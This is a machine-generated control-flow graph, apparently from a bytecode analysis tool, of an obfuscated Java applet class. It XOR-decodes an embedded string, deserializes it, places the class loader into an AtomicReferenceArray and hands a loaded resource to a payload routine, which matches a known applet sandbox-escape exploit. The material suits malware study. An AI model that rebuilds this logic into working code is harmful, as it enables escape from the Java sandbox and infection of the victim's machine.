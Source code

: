 digraph "" {
    "r0 := @this: a.apl"
    "load.r r0"
    "r0 := @this: a.apl"->"load.r r0";
    "push \"/xnm\""
    "load.r r0"->"push \"/xnm\"";
    "specialinvoke <a.apl: byte[] loadFileFromResources(java.lang.String)>"
    "push \"/xnm\""->"specialinvoke <a.apl: byte[] loadFileFromResources(java.lang.String)>";
    "store.r r17"
    "specialinvoke <a.apl: byte[] loadFileFromResources(java.lang.String)>"->"store.r r17";
    "store.r r17"->"load.r r0";
    "fieldget <a.apl: java.lang.String sobj>"
    "load.r r0"->"fieldget <a.apl: java.lang.String sobj>";
    "staticinvoke <a.apl: byte[] StringToBytes(java.lang.String)>"
    "fieldget <a.apl: java.lang.String sobj>"->"staticinvoke <a.apl: byte[] StringToBytes(java.lang.String)>";
    "store.r r1"
    "staticinvoke <a.apl: byte[] StringToBytes(java.lang.String)>"->"store.r r1";
    "push 0"
    "store.r r1"->"push 0";
    "store.i i4"
    "push 0"->"store.i i4";
    "load.i i4"
    "store.i i4"->"load.i i4";
    "load.r r1"
    "load.i i4"->"load.r r1";
    "arraylength"
    "load.r r1"->"arraylength";
    "ifcmpge.i new java.io.ObjectInputStream"
    "arraylength"->"ifcmpge.i new java.io.ObjectInputStream";
    "ifcmpge.i new java.io.ObjectInputStream"->"load.r r1";
    "load.r r1"->"load.i i4";
    "load.i i4"->"load.r r1";
    "load.r r1"->"load.i i4";
    "arrayread.b"
    "load.i i4"->"arrayread.b";
    "push 39"
    "arrayread.b"->"push 39";
    "xor.b"
    "push 39"->"xor.b";
    "nop"
    "xor.b"->"nop";
    "arraywrite.b"
    "nop"->"arraywrite.b";
    "inc.i i4 1"
    "arraywrite.b"->"inc.i i4 1";
    "goto load.i i4"
    "inc.i i4 1"->"goto load.i i4";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "nop"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"->"return";
    "new java.io.ObjectInputStream"
    "ifcmpge.i new java.io.ObjectInputStream"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r1"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "dup1.r"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"store.r r1";
    "push 1"
    "store.r r1"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "load.r r17"
    "arrayread.r"->"load.r r17";
    "staticinvoke <a.Help: void go(a.Help,byte[])>"
    "load.r r17"->"staticinvoke <a.Help: void go(a.Help,byte[])>";
    "goto return"
    "staticinvoke <a.Help: void go(a.Help,byte[])>"->"goto return";
}
